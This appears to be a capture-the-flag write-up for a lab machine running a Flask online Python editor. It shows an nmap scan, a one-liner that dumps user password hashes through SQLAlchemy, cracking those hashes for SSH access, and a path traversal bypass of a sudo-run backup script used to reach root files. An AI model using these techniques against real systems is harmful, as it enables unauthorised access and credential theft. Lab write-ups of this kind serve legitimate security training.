

# nmap


`╰─❯ sudo nmap -sV 10.10.11.62
Password:
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2025-05-20 15:14 EEST
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 43.45% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 51.50% done; ETC: 15:14 (0:00:02 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 52.17% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 53.03% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 15:14 (0:00:06 remaining)
Nmap scan report for 10.10.11.62
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.83 seconds`

from nmap we notice that theres http open in port 5000 and when you go to it you will find a online code editor for python

# user

after 30 mins of searching you can see that it might be a flask app with sqlalchemy running in it so a code like this will dump the hashes of the users

`print([(user.id, user.username, user.password) for user in User.query.all()])`

> [(1, ‘development’, ‘759b74ce43947f5f4c91aeddc3e5bad3’), (2, ‘martin’, ‘3de6f30c4a09c27fc71932bfc68474be’)]

using crackstation you can find the password of ssh of the user martin

# privilege escalation

theres an app-producion directory that requires root so that is our target.

using sudo -l will tell the things we can run in sudo mode as martin and we will notice that theres a backup bash code that edits task.json

```bash
martin@code:~/backups$ cat /usr/bin/backy.sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done
```

so that means we can edit the directories to archive to any file we want so we will put user.txt and to go to root we will use the ../ method

/home/…./root

run the bash after editing the files
